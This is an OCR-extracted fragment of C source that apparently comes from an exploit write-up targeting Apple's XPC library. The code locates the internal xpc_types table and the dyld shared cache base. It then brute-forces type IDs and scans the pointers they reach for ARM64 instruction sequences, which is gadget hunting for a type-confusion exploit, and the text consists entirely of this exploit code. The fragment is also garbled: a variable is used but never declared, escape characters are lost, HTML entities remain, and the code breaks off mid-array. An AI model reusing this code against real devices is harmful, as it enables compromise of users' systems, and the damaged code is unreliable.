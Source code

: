 ```

  void* xpc_type_null = dlsym(handle, "_xpc_type_null");
  printf("xpc_type_null: %pn", xpc_type_null);

  void** xpc_null = xpc_null_create();
  printf("xpc_null: %pn", xpc_null);

  xpc_null -= 2;
  uint8_t* xpc_types = NULL;

  for (int i = 0; i &lt; 0x10000; i++) `{`
    if (*xpc_null == xpc_type_null) `{`
      xpc_types = (uint8_t*)(xpc_null - 1);
      break;
    `}`
    xpc_null--;
  `}`

  if (xpc_types == NULL) `{`
    printf("didn't find xpc_typesn");
    return;
  `}`

  printf("found xpc_types here: %pn", xpc_types);

  uint8_t* shared_cache_base = NULL;
  syscall(294, &amp;shared_cache_base);
  printf("shared_cache_base: %pn", shared_cache_base);

  // how big is the cache mapping which we can potentially point to?
  uint32_t mapping_offset = *(uint32_t*)(shared_cache_base+0x10);
  uint32_t n_mappings = *(uint32_t*)(shared_cache_base+0x14);

  uint8_t* mapping_info = shared_cache_base+mapping_offset;

  uint64_t cache_size = 0;  
  for (int i = 0; i &lt; n_mappings-1; i++) `{`
    cache_size += *(uint64_t*)(mapping_info+0x08);
    mapping_info += 0x20;
  `}`

  printf("cache_size: %llxn", cache_size);

  for (int i = 0; i &lt; 0x7fffff; i++) `{`
    // try each typeid and see what gadget we hit:
    uint8_t* type_struct_ptr = (xpc_types + (8*i));
    uint8_t* type_struct = *(uint8_t**)(type_struct_ptr);

    if ((type_struct &gt; shared_cache_base) &amp;&amp;
        (type_struct &lt; (shared_cache_base+cache_size)))
    `{`
      uint8_t* fptr = *(uint8_t**)(type_struct+0x90);
      if (fptr &gt; shared_cache_base &amp;&amp; fptr &lt; (shared_cache_base + cache_size))
      `{`
        // try the shorter signature
        if (instr[-1] &gt;&gt; 0x18 == 0x17 &amp;&amp;
            instr[0] &gt;&gt; 0x10 == 0x17ff &amp;&amp;
            instr[1] == 0xD1004000) `{`
            printf("shorter sequence match at %pn", fptr);
         `}`

        // try the longer signature
        uint32_t gadget[4] = `{`0xA9BE4FF4,  // STP X20, X19, [SP,#-0x20]!
```
